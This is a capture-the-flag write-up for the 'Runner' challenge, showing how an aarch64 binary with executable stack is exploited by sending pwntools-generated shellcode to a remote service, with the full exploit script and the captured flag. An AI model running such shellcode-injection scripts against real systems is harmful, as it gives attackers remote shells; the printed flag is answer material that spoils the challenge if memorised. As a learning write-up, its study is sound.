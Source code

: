 # Runner
> Write-up author: jon-brandy
## DESCRIPTION:
I'll do whatever you give me.

nc rivit.dev 10001

## HINT:
- NONE
## STEPS:
1. Extract the .tar file shall resulting to 2 files (binary and it's source code).
2. Reviewing the source code, the vuln is very straightforward. Our input buffer directly stored onto the stack.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/cbf097cc-2bc5-4b11-a7f4-d1fd64f22547)


3. No overflow here, the chall concept must be ret2shell.
4. Checking the binary protections, shows that `NX is disabled`.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/5226deab-6e77-42b4-a35a-7c5d2bd7d716)


5. But noticed the arch is --> `aarch64-64-little`.
6. Well, since I did not have qemu yet on my machine, hence I can't debug it locally.
7. Luckily since we already knew what's the vuln, hence we can send it remotely straight away.
8. Again, need to add the `context.arch` equals to `aarch64` so pwntools know what the target arch is.

#### NOTES:

```
Run --> sudo apt install binutils-aarch64-linux-gnu

So you can use context.arch='aarch64'
```

> FULL SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

exe = './task'
elf = context.binary = ELF(exe, checksec=True)
context.arch = 'aarch64'
context.log_level = 'DEBUG'

# sh = process(exe)
sh = remote('rivit.dev', 10001)
sh.sendline(asm(shellcraft.sh()))

sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/7daaa4ab-17fa-4928-958f-360847e20939)


9. Got the flag!

## FLAG

```
CTFlearn{n0t_s0_st4nd4rd_sh3llc0d3}
```
